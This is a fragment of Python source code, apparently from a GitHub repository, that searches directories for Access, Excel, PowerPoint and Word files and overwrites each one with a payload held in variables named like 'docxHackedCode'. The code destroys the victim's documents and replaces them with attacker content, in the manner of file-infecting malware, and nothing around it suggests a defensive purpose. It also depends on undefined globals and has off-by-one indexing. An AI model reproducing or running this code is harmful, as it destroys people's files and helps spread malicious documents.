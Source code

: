 def findACCDB():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredACCDB = fnmatch.filter(filesInsideDir, '*.accdb')
    filteredACCDB.extend(fnmatch.filter(filesInsideDir, '*.mdb'))
    if len(filteredACCDB) > 0:
        for k in range(len(filteredACCDB)):
            pathsToACCDB.append(dirNameOfDir + "\\" + filteredACCDB[k - 1])
        populateACCDB()
def populateACCDB():
    for l in range(len(pathsToACCDB)):
        ACCDBFile = open(pathsToACCDB[l - 1], "wb")
        ACCDBFile.write(accdbHackedCode)
        ACCDBFile.close()

def findXLSX():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredXLSX = fnmatch.filter(filesInsideDir, '*.xlsx')
    filteredXLSX.extend(fnmatch.filter(filesInsideDir, '*.xls'))
    if len(filteredXLSX) > 0:
        for k in range(len(filteredXLSX)):
            pathsToXLSX.append(dirNameOfDir + "\\" + filteredXLSX[k - 1])
        populateXLSX()
def populateXLSX():
    for l in range(len(pathsToXLSX)):
        XLSXFile = open(pathsToXLSX[l - 1], "wb")
        XLSXFile.write(xlsxHackedCode)
        XLSXFile.close()

def findPPTX():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredPPTX = fnmatch.filter(filesInsideDir, '*.pptx')
    filteredPPTX.extend(fnmatch.filter(filesInsideDir, '*.ppt'))
    filteredPPTX.extend(fnmatch.filter(filesInsideDir, '*.pps'))
    if len(filteredPPTX) > 0:
        for k in range(len(filteredPPTX)):
            pathsToPPTX.append(dirNameOfDir + "\\" + filteredPPTX[k - 1])
        populatePPTX()
def populatePPTX():
    for l in range(len(pathsToPPTX)):
        PPTXFile = open(pathsToPPTX[l - 1], "wb")
        PPTXFile.write(pptxHackedCode)
        PPTXFile.close()

def findDOCX():
    filesInsideDir = listOfAvailDirs[j][3][1]
    dirNameOfDir = listOfAvailDirs[j][1][1]
    filteredDOCX = fnmatch.filter(filesInsideDir, '*.docx')
    filteredDOCX.extend(fnmatch.filter(filesInsideDir, '*.doc'))
    if len(filteredDOCX) > 0:
        for k in range(len(filteredDOCX)):
            pathsToDOCX.append(dirNameOfDir + "\\" + filteredDOCX[k - 1])
        populateDOCX()
def populateDOCX():
    for l in range(len(pathsToDOCX)):
        DOCXFile = open(pathsToDOCX[l - 1], "wb")
        DOCXFile.write(docxHackedCode)
        DOCXFile.close()

